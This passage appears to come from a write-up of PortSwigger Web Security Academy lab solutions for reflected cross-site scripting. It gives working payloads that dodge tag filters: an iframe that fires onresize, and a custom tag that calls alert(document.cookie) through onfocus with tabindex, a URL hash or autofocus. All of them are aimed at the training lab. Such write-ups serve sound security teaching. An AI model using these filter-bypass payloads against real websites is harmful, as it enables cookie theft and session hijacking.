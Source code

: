 - Go to the exploit server and paste the following code, replacing `your-lab-id` with your lab ID:

  ```html
  <iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
  ```

- Click "Store" and "Deliver exploit to victim".

once the `iframe` is loaded in the page its width will be 100 px . the change in width will cause `onresize` to be called 

<br /><br />

---

### [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

Goal: perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

- from lab description you know that all html tags are blocked ,so you need a custom html tag

- Go to the exploit server and paste the following code, replacing `your-lab-id` with your lab ID:

  ```html
  <script>
  location="https://your-lab-id.web-security-academy.net/?search=<karim id=x onfocus=alert(document.cookie) tabindex=1>test</karim>#x";
  </script>
  ```

- Click "Store" and "Deliver exploit to victim".

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the `alert` function. 

The **`tabindex`** indicates that its element can be focused.

The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the `alert` payload to be called because from lab description you have to trigger the alert function automatically.

you can replace the hash part with `autofocus` event .

```
<script>
location="https://your-lab-id.web-security-academy.net/?search=<karim id=x onfocus=alert(document.cookie) tabindex=1 autofocus>test</karim>";
</script>
```

<br /><br />

---

### [Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)
